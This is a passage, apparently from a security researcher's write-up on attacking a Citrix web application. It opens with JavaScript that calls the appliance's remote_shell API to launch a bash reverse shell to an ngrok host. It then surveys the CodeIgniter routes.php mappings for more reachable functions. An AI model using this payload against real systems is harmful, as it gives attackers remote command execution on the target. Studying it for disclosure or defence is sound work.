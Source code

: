 ```js
	}
}

function exec_command(rand) {
	url = '/rapi/remote_shell'
	command = 'bash -c \"bash -i >%26 /dev/tcp/0.tcp.ngrok.io/16588 0>%261\"'

	var obj = {
		"params":{
			"warning":"YES"
		},
		"remote_shell":{
			"command":command,
			"prompt":">",
			"target":"shell",
			"suppress":0,
			"execute_in_partition":""
		}
	}

	var xhr = new XMLHttpRequest();
	
	xhr.onreadystatechange = function() {
    	if (xhr.readyState === 4) {
    		response = JSON.parse(xhr.response);
    		alert(response['remote_shell']['output']);
    	}
  	}

	xhr.open('POST', url, true);
	xhr.setRequestHeader('rand_key', rand)
	xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded')
  	xhr.send('object=' + JSON.stringify(obj));

}

var url = '/menu/stc';
load(url, get_rand)
```

NEXT!

### Calling PHP functions
The Citrix web application uses `CodeIgniter` for most of the application. They also have a `routes.php` file that specifies what URLs are mapped where. There is one route that is mapped a bit different though:

```php
[..]
$route['menu/gim\?(:any)'] = "reporting/reporting/image_map/$1";
$route['menu/createfol'] = "reporting/reporting/create_folder";
$route['menu/mcr'] = "reporting/reporting/manage_custom_reports";
$route['menu/agc'] = "reporting/reporting/apply_global_conf";
$route['menu/expr'] = "reporting/reporting/export_reports";
$route['menu/impr'] = "reporting/reporting/import_reports";

//Links handled by pcidss/pcidss controller
$route['pcidss/([a-zA-Z_]+)\?(.+)'] = "pcidss/pcidss/$1/$2";

//Links handled by neo/topn/agee/cb home - RDX based applications
$route['rapi/(:any)'] = "common/rapi/main/$1";
$route['menu/neo'] = "common/menu/neo";
$route['menu/topn\?(:any)'] = "common/menu/topn/$1";
$route['menu/agee\?(:any)'] = "common/menu/agee/$1";
```